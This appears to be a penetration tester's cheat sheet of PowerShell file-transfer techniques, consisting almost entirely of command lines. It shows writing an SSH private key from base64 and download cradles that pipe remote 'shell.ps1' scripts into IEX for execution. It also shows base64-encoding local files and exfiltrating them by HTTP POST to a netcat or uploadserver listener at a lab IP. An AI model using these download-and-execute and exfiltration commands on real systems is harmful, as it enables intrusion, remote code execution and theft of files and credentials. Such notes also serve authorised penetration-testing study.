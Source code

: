 ## Powershell Read Write file

```Powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))
```

## Get Hash

```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## Download File

```powershell
(New-Object Net.WebClient).DownloadFile('http://test/aaa.ps1','aaa.ps1')
(New-Object Net.WebClient).DownloadFileAsync('http://test/aaa.ps1','aaa.ps1')
wget http://test/aaa.ps1 -o aaa.ps1
```

## IEX

```powershell
(New-Object Net.WebClient).DownloadString('https://test/shell.ps1') | IEX
Invoke-WebRequest https://<ip>/shell.ps1 -UseBasicParsing | IEX
```

## Encode File Using PowerShell

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

## file upload with http

```
$ pip3 install uploadserver
$ python3 -m uploadserver

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

## no fileupload

```
$ nc -lvnp 8000

$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

